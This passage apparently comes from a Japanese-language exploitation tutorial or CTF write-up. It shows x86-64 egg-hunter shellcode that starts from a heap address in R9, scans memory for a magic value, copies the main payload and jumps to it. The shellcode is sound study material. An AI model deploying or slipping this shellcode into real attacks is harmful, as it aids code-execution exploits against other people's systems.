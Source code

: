 R9レジスタにヒープのアドレスが入っていることがわかります。ここを起点に本体のシェルコードを探索できそうです。大抵の場合は今回のように、レジスタやスタックに探索したいアドレスがあるので、そこを起点にマジックナンバーを探せば良いです。

Egg Hunterのシェルコードは次のようになります。
```
_start:
  mov r15, r9                   ; heap address
  mov r14, 0xdeadbeefcafebabe   ; magic
  and r15, 0xfffffffffffffff0
search:
  mov rax, [r15]
  cmp rax, r14
  jz found
  sub r15, 0x10
  jmp search
found:
  add r15, 8
  mov edx, 0x800
  mov rsi, r15
  lea rdi, [rel main]
  call memcpy
  jmp main

;; memcpy copies data from source to destination
;;   rdi: destination address
;;   rsi: source address
;;   rdx: size to copy
memcpy:
  mov rcx, rdx
  repnz movsb
  ret

;; is_mmaped checks if given address is mapped
;;   rdi: address
;;   returns: 1 if mapped, 0 otherwise
is_mapped:
  ; write(1, address, 1)
  mov edx, 1
  mov rsi, rdi
  mov edi, edx
  mov eax, edx
  syscall
  test eax, eax
  setns al
  movzx eax, al
  ret

main:
```

<div class="balloon_l">